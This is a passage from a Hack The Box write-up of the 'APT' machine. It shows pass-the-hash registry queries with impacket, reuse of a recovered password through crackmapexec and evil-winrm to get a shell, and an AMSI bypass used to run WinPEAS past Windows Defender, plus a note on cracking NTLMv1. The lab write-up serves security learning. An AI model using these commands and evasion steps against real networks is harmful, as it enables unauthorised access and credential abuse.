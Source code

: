 ```bash
impacket-reg htb.local/henry.vinson@apt -hashes :e53d87d42adaa3ca32bdb34a876cbffb query -keyName HKCU\\Software
impacket-reg htb.local/henry.vinson@apt -hashes :e53d87d42adaa3ca32bdb34a876cbffb query -keyName HKCU\\Software\\GiganticHostingManagementSystem
# :) Credentials !

crackmapexec smb apt -u 'henry.vinson_adm' -p 'G1#Ny5@2dvht'      # :)
crackmapexec winrm apt -u 'henry.vinson_adm' -p 'G1#Ny5@2dvht'
evil-winrm -i apt -u 'henry.vinson_adm' -p 'G1#Ny5@2dvht'

whoami
hostname
ipconfig
```

<br />
<img src="{{ site.img_path }}/apt_writeup/APT_44.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/apt_writeup/APT_45.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/apt_writeup/APT_46.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/apt_writeup/APT_47.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/apt_writeup/APT_48.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/apt_writeup/APT_49.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/apt_writeup/APT_50.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Now on the victim machine I can already access the first flag to demonstrate on the **[Hack The Box](https://www.hackthebox.com){:target="_blank"}** platform the compromise of the box, I also use some **Reconnaissance** commands to know what information I have, I find that there are two user accounts in addition to those created by default, so maybe I should perform a **User Pivoting** or not. I explore the directories where sensitive information can be found but I am not going to waste a lot of time blindly, so I am going to resort to **[WinPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS
){:target="_blank"}**, but if I transfer it to the machine it generates conflicts with **Windows Defender**, the good thing about `evil-winrm` is that it has some options that allow me to perform a bypass as **Bypass-4MSI** (patchs AMSI protection) and invoke the **[WinPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS){:target="_blank"}** binary directly. I find a lot of interesting information, but the most striking is that the **Domain Controller** has support for **NTLMv1** (which is **[vulnerable to being cracked](https://book.hacktricks.xyz/windows-hardening/ntlm){:target="_blank"}**), in the other files I don't find much.

> **NTLMv1**. The server authenticates the client by sending an 8-byte random number, the **challenge**. The client performs an operation involving the **challenge** and a **secret** shared between client and server. The client returns the 24-byte result of the computation.
